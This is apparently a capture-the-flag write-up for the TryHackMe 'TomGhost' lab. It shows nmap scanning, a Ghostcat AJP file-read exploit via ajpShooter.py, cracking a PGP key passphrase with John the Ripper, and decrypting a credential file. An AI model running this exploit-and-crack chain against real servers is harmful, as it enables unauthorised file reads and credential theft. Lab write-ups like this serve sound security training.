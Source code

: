 # TomGhost

```bash
furious 10.10.239.44
nmap -sC -sV -sS -p 22,53,8009,8080 -n -Pn -oN targeted 10.10.239.44
```

![232802.png](232802.png)

We try Ghostcat File Read/Inclusion with https://github.com/00theway/Ghostcat-CNVD-2020-10487

reference: https://medium.com/@apkash8/hunting-and-exploiting-apache-ghostcat-b7446ef83e74

```bash
python3 ajpShooter.py http://10.10.239.44:8080/ 8009 /WEB-INF/web.xml read
```

![002929.png](002929.png)

```bash
gpg2john tryhackme.asc > hash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```

![141327.png](141327.png)

we import the key with the password `alexandru`

```bash
gpg --import tryhackme.asc
```

![140731.png](140731.png)

Now we have to decrypt `credential.gpg`

```bash
gpg --output credential.txt --decrypt credential.gpg
```

![145239.png](145239.png)
